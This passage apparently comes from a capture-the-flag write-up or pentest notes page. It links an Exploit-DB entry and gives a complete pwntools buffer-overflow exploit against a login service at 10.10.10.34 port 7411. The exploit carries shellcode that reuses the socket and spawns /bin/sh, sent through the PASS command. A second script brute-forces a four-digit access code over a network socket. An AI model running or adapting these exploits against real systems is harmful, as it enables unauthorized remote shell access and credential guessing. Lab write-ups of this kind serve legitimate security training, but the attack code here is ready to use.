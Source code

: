 {% embed url="https://www.exploit-db.com/exploits/34060" %}

#### Fitting the exploit

Finally we just need to fit all parts together and make the exploit:

```text
from pwn import *
# Initial Configuration

context(os="linux", arch="i386")
host = "10.10.10.34"
port = "7411"

# Junk Bytes

junk = b'A' * 28

# UserPass Leaked memory
addr = p32(0xffffd610+32) 

# Payload to reuse the socket
buf=b""
buf+=b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
buf+=b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
buf+=b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
buf+=b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
buf+=b"\x89\xe3\x31\xc9\xcd\x80";

payload = junk + addr + buf

r = remote(host, port, level='error')
r.recvline()
r.sendline("DEBUG")
r.recvline()
r.sendline("USER admin")
r.recvline()
r.sendline("PASS " + payload)

r.interactive()
```

## Example pwntools

```text
from pwn import *

for i in range(0, 9999):
    code = "0" * (4- len(str(i))) + str(i)
    # r = process("./mypapp")
    r = remote("localhost", 910, level='error')
    r.recvuntil("[$] ")
    r.sendline(code)
    response = r.recvline()
    r.close()
    if b"Access denied" not in response:
        log.success("Valid code found " + code)
        break
```

